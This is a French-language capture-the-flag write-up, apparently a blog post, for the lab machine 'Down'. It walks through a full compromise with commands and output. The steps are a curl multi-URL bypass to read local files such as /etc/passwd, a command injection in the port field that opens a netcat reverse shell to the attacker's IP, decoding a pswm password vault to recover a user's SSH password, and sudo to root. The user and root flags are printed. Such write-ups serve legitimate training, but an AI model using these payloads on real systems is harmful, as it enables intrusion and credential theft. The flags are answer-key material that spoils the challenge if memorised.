



--- 
title: Down
description: Une brève description de votre article 
date: 2025-12-14 
tags: 
- tag1 
- tag2 
- ctf 
draft: false 
---

# Recon
```sh
rustscan -a 10.129.13.84 -- -sCV

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f6cc217ccadaed34fd04efe6f94cddf8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9eTcP2DDxJHJ2uCdOmMRIPaoOhvMFXL33f1pZTIe0VTdeHRNYlpm2a2PumsO5t88M7QF3L3d6n1eRHTTAskGw=
|   256 fa061ff4bf8ce3b0c840210d5706dd11 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJwLt0rmihlvq9pk6BmFhjTycNR54yApKIrnwI8xzYx/
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### SSH
- password autho active (brute force)
```sh
☺  ssh root@10.129.13.84
The authenticity of host '10.129.13.84 (10.129.13.84)' can't be established.
ED25519 key fingerprint is SHA256:uq3+WwrPajXEUJC3CCuYMMlFTVM8CGYqMtGB9mI29wg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.13.84' (ED25519) to the list of known hosts.
(root@10.129.13.84) Password:
```

### HTTP

- test web site fonction

- `nc -lvnp 80`
```sh
 nc -lnvp 80
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.129.13.84.
Ncat: Connection from 10.129.13.84:42648.
GET / HTTP/1.1
Host: 10.10.14.142
User-Agent: curl/7.81.0
Accept: */*
```

`User-Agent: curl/7.81.0` utilise curl pour ses resquets
- Only protocols http or https allowed.

### bypass
- payload 
```sh
http://127.0.0.1/ file:///etc/hosts
```
on peut etrer plusieur addre à curl or le filtrage ne verifie que la 1er address

 - `http://127.0.0.1/ file:///etc/passwd`
```c
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
aleks:x:1000:1000:Aleks:/home/aleks:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```
- `http://127.0.0.1/ file:///proc/self/cwd/index.php`
```php
<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
}

if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';
  }
} elseif (isset($_POST['url'])) {
  $url = trim($_POST['url']);
  if ( preg_match('|^https?://|',$url) ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/curl -s $url");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';
  }
}
?>
```
### expertmode
```sh
index.php?expertmode=tcp
```
- `$port` n'est pas filter
```sh
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
```

- shell
```c
POST /index.php?expertmode=tcp HTTP/1.1
Host: 10.129.13.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://10.129.13.84
Connection: keep-alive
Referer: http://10.129.13.84/index.php?expertmode=tcp
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ip%3d10.10.14.142%26port%3d80+-e+/bin/bash
```

```sh
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: 10.129.13.84' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 42' -H $'Origin: http://10.129.13.84' -H $'Connection: keep-alive' -H $'Referer: http://10.129.13.84/index.php?expertmode=tcp' -H $'Upgrade-Insecure-Requests: 1' -H $'Priority: u=0, i' \
    --data-binary $'ip%3d10.10.14.142%26port%3d80+-e+/bin/bash' \
    $'http://10.129.13.84/index.php?expertmode=tcp'
```
### user.txt
```sh
(remote) www-data@down:/var/www/html$ ls
index.php  logo.png  style.css  user_aeT1xa.txt
(remote) www-data@down:/var/www/html$ cat user_aeT1xa.txt
d4bc94b386ef7c8113698a8c4951cacd
```

```
(remote) www-data@down:/$ find / -user aleks 2>/dev/null
/home/aleks
/home/aleks/.lesshst
/home/aleks/.bashrc
/home/aleks/.sudo_as_admin_successful
/home/aleks/.local
/home/aleks/.local/share
/home/aleks/.local/share/pswm
/home/aleks/.local/share/pswm/pswm
/home/aleks/.cache
/home/aleks/.ssh
/home/aleks/.profile
/home/aleks/.bash_logout
(remote) www-data@down:/$ cd /home/aleks/.local/share/pswm
(remote) www-data@down:/home/aleks/.local/share/pswm$ ls
pswm
(remote) www-data@down:/home/aleks/.local/share/pswm$ ls -al
total 12
drwxrwxr-x 2 aleks aleks 4096 Sep 13  2024 .
drwxrwxr-x 3 aleks aleks 4096 Sep 13  2024 ..
-rw-rw-r-- 1 aleks aleks  151 Sep 13  2024 pswm
(remote) www-data@down:/home/aleks/.local/share/pswm$ strings pswm
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
(remote) www-data@down:/home/aleks/.local/share/pswm$ cat pswm
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==(remote) www-data@down:/home/aleks/.local/share/pswm$
```

### [pswm-decoder](https://github.com/repo4Chu/pswm-decoder.git)

```sh
☺  python3 pswm-decoder.py                                                                                                           main ✗
Password: flower
Decoded text:
pswm    aleks   flower
aleks@down      aleks   1uY3w22uc-Wr{xNHR~+E
```

```sh
☺  nxc ssh 10.129.13.84 -u aleks -p '1uY3w22uc-Wr{xNHR~+E'
SSH         10.129.13.84    22     10.129.13.84     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.11
SSH         10.129.13.84    22     10.129.13.84     [*] Current user: 'aleks' was in 'sudo' group, please try '--sudo-check' to check if user can run sudo shell
SSH         10.129.13.84    22     10.129.13.84     [+] aleks:1uY3w22uc-Wr{xNHR~+E  Linux - Shell access!
```

### shell as aleks
```
☺  ssh aleks@10.129.13.84
(aleks@10.129.13.84) Password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 System information as of Fri Dec 12 10:45:54 PM UTC 2025

  System load:           0.05
  Usage of /:            52.6% of 6.92GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             241
  Users logged in:       0
  IPv4 address for eth0: 10.129.13.84
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f7af
Last login: Tue Jun 10 15:47:07 2025 from 10.10.14.67
aleks@down:~$ sudo -l
[sudo] password for aleks:
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
aleks@down:~$ sudo su
```

### shell as root
```
aleks@down:~$ sudo su
root@down:/home/aleks# cd
root@down:~# ls
root.txt  snap
root@down:~# cat root.txt
87bb9869a311b8abb5fb4d3c7248fdcb
```